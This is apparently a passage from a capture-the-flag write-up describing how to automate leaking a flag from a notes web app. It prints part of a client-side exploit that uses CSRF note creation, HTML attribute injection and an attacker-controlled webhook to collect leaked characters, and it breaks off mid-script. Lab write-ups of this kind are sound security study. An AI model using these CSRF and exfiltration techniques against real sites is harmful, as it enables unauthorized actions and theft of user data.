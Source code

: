 So, we already found the oracle for leaking the flag, the only one left is the automation part.

And here is the the flow of automation part, `[C]` mean is a `client-side` and `[S]` mean is `server-side`:
1. `[C]` Fetch the known flag to the exploit-server;
2. `[C]` Create lot of notes by make use of CSRF with known prefix inside of iframe;
3. `[C]` When we creating notes, app will redirecting our navigation into `/note/uuid`. To make it easier to disintegrate between exploit firing at viewing note and searching note, add attribute [referrerpolicy](https://developer.mozilla.org/en-US/docs/Web/API/HTMLAnchorElement/referrerPolicy) (`referrerpolicy='unsafe-url`) by making use of HTML attribute injection;
4. `[C]` Delete the CSRF iframe, and replace it with the search feature;
5. `[S]` If referrer has `/note/uuid` ignore the collecting chars;
6. `[S]` If not, then put it into list;
7. `[C]` make a request to the exploit-server for checking which characters that not hitting  the exploit-server;
8. `[S]` find a character that not exists our charset, if true then it means its the correct flag;
9. `[C]` loop;

And this is the final script

Client-Side
```js
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <iframe id="stuff" frameborder="0"></iframe>
    <script>
        function makeid(length) {
            let result = '';
            const characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789';
            const charactersLength = characters.length;
            let counter = 0;
            while (counter < length) {
                result += characters.charAt(Math.floor(Math.random() * charactersLength));
                counter += 1;
            }
            return result;
        }

        let webhook = "https://ngrok/"
        let remote = "https://domain.com/"
        const sleep = ms => new Promise(r => setTimeout(r, ms));
        async function check_known() {
            let res = await fetch(webhook + "known")
            return res.text()
        }
        async function main (){
            let charset = "abcdefghijklmnopqrstuvwxyz_}"
            await check_known().then(async function(r){
                if(r.endsWith("}")){ return 1; }
                for(let _ in charset){
                    data_csrf = `data:text/html,
                            <html\x3e
                    <body\x3e
                        <form action="${remote}create" method="POST">
                        <input type="hidden" name="title" value="${makeid(32)}" />
                        <input type="hidden" name="text" value="${r+charset[_]}" />
                        <input type="hidden" name="image" value="${webhook}iterate?c=${r + charset[_]}&' referrerpolicy='unsafe-url" />
                        <input type="submit" value="Submit request" />
```

[^1]:  [The next step toward phasing out third-party cookies in Chrome](https://blog.google/products/chrome/privacy-sandbox-tracking-protection/)